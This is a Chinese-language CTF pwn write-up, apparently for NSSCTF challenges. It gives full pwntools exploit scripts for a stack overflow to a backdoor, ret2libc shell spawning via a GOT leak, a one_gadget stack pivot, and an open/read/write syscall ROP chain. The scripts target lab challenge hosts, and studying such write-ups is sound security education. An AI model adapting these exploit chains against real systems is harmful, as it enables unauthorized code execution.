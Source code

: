 # Hello_world
签到题，利用栈溢出漏洞劫持返回函数至`backdoors`即可。
exp:
```python
from pwn import *
from wstube import websocket

context(arch='amd64', os='linux', log_level='debug')
local = False
ip = 'node2.anna.nssctf.cn'
port = 28485
if local:
	p = process('./Hello_world')
	pwnlib.gdb.attach(p, 'b func1')
else:
	p = remote(ip, port)
	# p = websocket()

payload = b'a' * (0x20 + 8) + b'\xc5'
p.send(payload)
p.interactive()
```
# ret2libc1
菜单题，可以找到栈溢出漏洞在`shop`函数里
![[Pasted image 20250302221923.png]]
`main`函数中可以找到当输入7时会执行`see_it`函数，可以刷钱，刷了钱后便可以买下商店触发栈溢出漏洞。
![[Pasted image 20250302222124.png]]
利用该漏洞可以泄漏`libc`基址构造`rop`。
exp:
```python
from pwn import *
from wstube import websocket

context(arch='amd64', os='linux', log_level='debug')
local = False
ip = 'node2.anna.nssctf.cn'
port = 28561
if local:
	p = process('./attachment')
	pwnlib.gdb.attach(p, 'b ')
else:
	p = remote(ip, port)
	# p = websocket()

elf = ELF('./attachment')
libc = ELF('./libc.so.6')

ret = 0x400579
pop_rdi = 0x400d73

p.recvuntil(b'6.check youer money\n')
p.sendline(b'7')
p.recvuntil(b'exchange?')
p.sendline(b'1000')
p.recvuntil(b'6.check youer money\n')
p.sendline(b'5')
p.recvuntil(b'name it!!!\n')

payload = b'a' * (0x40 + 8)
payload += p64(pop_rdi) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(0x400b1e)

p.sendline(payload)

puts_addr = u64(p.recv(6).ljust(8, b'\x00'))
log.info('puts_addr: ' + hex(puts_addr))

libc_base = puts_addr - libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

payload = b'a' * (0x40 + 8)
payload += p64(ret) + p64(pop_rdi) + p64(bin_sh_addr) + p64(system_addr)
p.recvuntil(b'name it!!!\n')
p.sendline(payload)

p.interactive()
```

# ret2libc2
`one_gadget`类型的题目。
需要先想办法泄漏`libc`基址，因为不能直接控制`pop rdi; ret` 需要找别的方法。
![[Pasted image 20250302222628.png]]
能想到的方法就是利用`printf`函数将函数的`got`泄漏出来
![[Pasted image 20250302222757.png]]
从汇编可以看出这里将`rbp - 0x10`赋给`rax`，所以在第一次`read`时将某一函数的`got + 0x10`放在此处即可，如下图
![[Pasted image 20250302223055.png]]
泄漏之后可以算出`libc`基址，查找使用哪个`gadget`
![[Pasted image 20250302223226.png]]
可以发现都需要`rbp-0xXX`可以执行，可以看到有`leave ret`，将`rbp`迁移到一个可执行的位置即可。
```python
from pwn import *
from wstube import websocket

context(arch='amd64', os='linux', log_level='debug')
local = True
ip = 'node2.anna.nssctf.cn'
port = 28713
if local:
	p = process('./ret2libc2')
	pwnlib.gdb.attach(p, 'b func')
else:
	p = remote(ip, port)
	# p = websocket()

elf = ELF('./ret2libc2')
libc = ELF('./libc.so.6')
ret = 0x40101a

p.recvuntil(b'magic')
payload = p64(elf.got['puts']) + b'\x00' * 0x28 + p64(elf.got['setvbuf'] + 0x10) + p64(0x401223)
p.send(payload)

p.recvuntil(b'\n')
puts_addr = u64(p.recv(6).ljust(8, b'\x00'))
log.success('puts_addr: ' + hex(puts_addr))
libc_base = puts_addr - libc.symbols['setvbuf']
log.success('libc_base: ' + hex(libc_base))

system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

ogg = libc_base + 0xebc81

p.recvuntil(b'magic')
payload = b'\x00' * (0x30) + p64(elf.bss() + 0x100) + p64(ogg)

p.send(payload)

p.interactive()
```
# stack
反编译后的伪代码看不出什么，需要直接看汇编
![[Pasted image 20250302223649.png]]
主函数`print`了两个``msg``以及一个`rsp`指针，然后`read`之后跳转到`rsp`指的地方
![[Pasted image 20250302223809.png]]
再看看`print`函数以及`gadgets`函数，利用这些可以做到控制`rax,rsi,rdi,rbx,r13,r15`，
![[Pasted image 20250302224032.png]]
接受一下泄漏的地址可以发现是栈地址，可以把文件路径存在这里后面调用。
调试很久本打算控制寄存器调用`execve`直接`binsh`，但发现不能控制`rdx`用不了`execve`（也可能我哪里弄错了），最后选择构造`orw`。
```python
from pwn import *
from wstube import websocket

context(arch='amd64', os='linux', log_level='debug')
local = True
ip = 'node2.anna.nssctf.cn'
port = 28073
if local:
	p = process('./stack')
	pwnlib.gdb.attach(p, 'b *0x401033')
else:
	p = remote(ip, port)
	# p = websocket()  

ret = 0x401013
elf = ELF('./stack')

p.recvuntil(b'\x20\x29\x0a')
recv = u64(p.recv(6).ljust(8, b'\x00'))
log.success(f'recv: {hex(recv)}')

p.recvuntil(b'\x3e\x3e\x20')
payload = flat([
	# open
	0x401017,
	0,
	0,
	'./flag\x00\x00', # 将路径存在泄漏的栈地址
	0x401017,
	0,
	0,
	0,
	2,                # r13赋值open的系统调用，后面赋给rax
	0x40100c,
	0x401017,
	0,
	0,
	0,
	0x401017,
	0,
	recv,             # rdi赋值flag地址
	0,
	0,
	0x401077,         # syscall系统调用
	# read
	0x401017,
	0,
	0,
	0,                # r13赋值read的系统调用
	0x40100c,
	0x401017,
	0,
	0,
	0,
	0x401017,
	0x4023d0,         # rsi赋值缓存地址
	3,                # rdi赋值fd文件符
	0,
	0,
	0x401077,         # syscall
	# write
	0x401017,
	0,
	0,
	1,                # write系统调用
	0x40100c,
	0x401017,
	0,
	0,
	0,
	0x401017,
	0x402000 - 0x10, # rsi缓存地址
	1,               # rdi fd文件符
	0,
	0,
	0x401077,
])
p.sendline(payload)

p.interactive()
```
# my_v8
